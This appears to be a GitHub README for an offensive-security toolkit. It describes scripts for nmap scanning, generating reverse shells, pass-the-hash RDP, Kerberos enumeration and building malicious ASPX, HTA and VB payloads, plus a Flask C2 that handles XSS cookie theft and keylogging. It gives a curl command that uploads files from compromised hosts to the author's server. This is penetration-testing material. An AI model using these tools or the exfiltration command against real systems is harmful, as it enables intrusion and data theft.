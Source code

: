 # Incompetent Bastard

*Not so fine (you'll find out) bash and python scripts for incompetent bastards, like myself.*



command `screen -list` will show you the availabe screens.

An here are some basics.....

Press "Ctrl-A" on the keyboard and press "D" to detach from a screen

Press "Ctrl-A" on the keyboard and press "Esc."
Press the "Up" and "Down" arrow keys or the "PgUp" and "PgDn" keys to scroll through previous output.
Press "Esc" to exit scrollback mode.








## Bash scripts currently on board


### ./init.sh (always use this function first)

This script will setup the basisc things. Safe your OpenVPN file in the meuk directory as client.ovpn. If this file is there, `init.sh` will start it in a detachted screen. 

If everything is well, you'll see the following results

```
# screen -list                                                                                                                    
There are screens on:
	1708.metasploit	(07/22/2022 10:02:47 AM)	(Detached)
	1704.http	(07/22/2022 10:02:47 AM)	(Detached)
	1701.smb	(07/22/2022 10:02:47 AM)	(Detached)
	1699.vpn	(07/22/2022 10:02:47 AM)	(Detached)
4 Sockets in /run/screen/S-root.
```

And off you go.




### ./scan.sh (always use this function second)

This wil take a basic nmap scan of the network. For example mylocalnetwork

```./scan.sh eth0 mylocalnetwork 12.3.4/24```

Scan output will be prefixed with `mylocalnetwork`


### ./search.sh

Completed the scan with `scan.sh`? `search.sh` greps the output

Find all host's Up:
```./search.sh mylocalnetwork up```

Find all MS SMB shares:
```./search.sh mylocalnetwork microsoft-ds```

Find all Samba shares
```./search.sh mylocalnetwork Samba```

Etc. Use your imagination. 

### ./revershells.sh

This file is called by `scan.sh`

Generates some reverse shells and a txt file for some good ol' copy & paste.
Currently default's to port 443 you. Change this by giving the port als a second option.
You'll find the generated shells and the textfile shell_443.txt in the directory http/payloads.

Usage (with port set to default port):
```./reverseshell.sh eth0```
Or to change the port to 4444:
```./reverseshell.sh eth0 4444```

The reverse shells are taken from 

### ./shell.sh

Connect to a screen

### ./sshuttle.sh

Obvious

### ./commands.sh

inject a file from http/commands in to a screen session

```./commands.sh screenname filename```

### ./kerberos.sh
Get info from domain controlers

Usage:
```./kerberos.sh mylocalnetwork```

### ./ftp_anon.sh
Enumerates all open ftp shares with nmap.

Usage:
```./ftp_anon.sh mylocalnetwork```

### ./ftp_asp.sh

todo

### ./rfi_input.sh

This one utilizes `php://input%00`


### ./gen_passwords.sh

Just run `./gen_passwords.sh`

Generates a password list of basic passwords with common variations. You might want to change the values in commonpasswords and take a close look to your cewl output.

When you are stuck on PNPT this might give you a clue.... Thank me later ;)


### ./vpn.sh

A simple wrapper for xfreerdp

With default creds: `./vpn.sh 127.0.0.1`
With other creds: `./vpn.sh 127.0.0.1 Administrator P@ssw0rd!`
With Pash the Hash `./vpn.sh 127.0.0.1 Administrator x NTLMHASH`


### ./gui.sh

Yes, it comes with a GUI, well sort off....

## Python scripts onboard

### app.py

This script is called by `init.sh` make sure you ran `scan.sh` before visiting `app.py` on localhost.

Elevating humanity with a new twisted variant of `python3 -m http.server 80` in Flask. A C2 for poor people...

`flask run --port 80` 

It currently supports:
- serving payloads
- basic reporting (owasp top 10 and CWE top 25) and note keeping
- xss payloads, extracting cookies, keylogger etc.
- Quick overview of generated payloads by `reverseshell.sh`
- Some bookmarks... yolo.
- Pesky SSRF 307 redirects
- Second Order SQLi
- XXE
- Upload directory. Easily extract files from hosts with with `curl -F file=@FILENAME https://incompetentbastard.com/upload`
- Sync findings to DefectDojo
- Domain fronting & C2 functionality
- An overview (and interacting) of current attached screens and MSF sessions
- Random quotes!


A manual will be available in the not-too-distant future..

### methaspx.py

Builds an custom aspx shell and some malicious VB and HTA files

### invoke-shellcode.py

Adjusted from: 
https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1

Invokes a reverse 32x or 64x reverse TCP shell instead of calc.

### meterpreter.py

Builds a custom exe with payload

### powershell.py

Generate some custom powershell scripts and writes it to the file generated by `reverseshells.sh`. 
It also create some download links (lolbas/powershell) for the files at the `http/tools/` directory.

### payloads.py

[Todo] Generates some extra custom payloads.



# dependancies

For MacOS, this might help...


- ip `brew install iproute2mac`
- mono/ xbuild `brew install mono`
- ` pip3 install dnsrecon asciinema nmaptocsv`



